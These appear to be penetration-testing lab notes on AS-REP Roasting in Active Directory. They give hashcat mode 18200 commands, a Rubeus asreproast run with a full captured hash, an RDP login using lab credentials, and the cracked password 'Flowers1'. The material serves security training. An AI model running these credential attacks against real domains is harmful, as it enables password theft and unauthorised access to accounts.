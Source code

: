 # Above shows that dave has the user account option Do not require Kerberos preauthentication enabled, meaning its vulnerablt to AS-REP Roasting\

kali@kali:~$ hashcat --help | grep -i "Kerberos"
...
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
...

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
Flowers1
Session..........: hashcat
Status...........: Cracked
...

# Hashcat successfully cracked the AS-REP hash. Above shows that the user dave has the password Flowers1.

# ! Methods 2 !
# We can also perform AS-REP Roasting on Windows. We'll use Rubeus,4 which is a toolset for raw Kerberos interactions and abuses. To perform this attack, we'll connect to CLIENT75 via RDP as domain user jeff with the password HenchmanPutridBonbon11. Next, we can start a PowerShell window and navigate to C:\Tools, where Rubeus.exe can be found.
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.163.75

PS C:\Tools> .\Rubeus.exe asreproast /nowrap
...
$krb5asrep$dave@corp.com:DF3C6AF6128645AEE854F27E59245CA6$01E2FDA3A652401275B33A1E6E75B13367F44449D1C7A6CF8D1AAFBF684B761698CF3E8B83E24A0141609B638FE1D4BB8AB8CE809CEAEE189F1CC449794BD021DBF7AAA2118F9A51251CC1214822729DF55218BEB87F2FBCE78308A7C23F67AD8452EE80AE1F01E202356E55D999C9270A9490D24E152FAE05F68C033B528376F27DFAD2D50FBFC764DEB7FB4E1A9CA31111227820B552249DFCB05CEA9CBA76FE27C8E5EB5E4968F1208C487F50D16F1B945BB336C0347698A5788BDAE3C04D997A89752860BBEB91C8E05C9E6241950522906C5132C3C4547DC32FCD2AE57D3C18DAA7
...

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
Flowers1
Session..........: hashcat
Status...........: Cracked
...

# To identify users with the enabled AD user account option Do not require Kerberos preauthentication, we can use PowerView's Get-DomainUser function with the option -PreauthNotRequired on Windows. On Kali, we can use impacket-GetNPUsers as shown in listing 14 without the -request and -outputfile options.
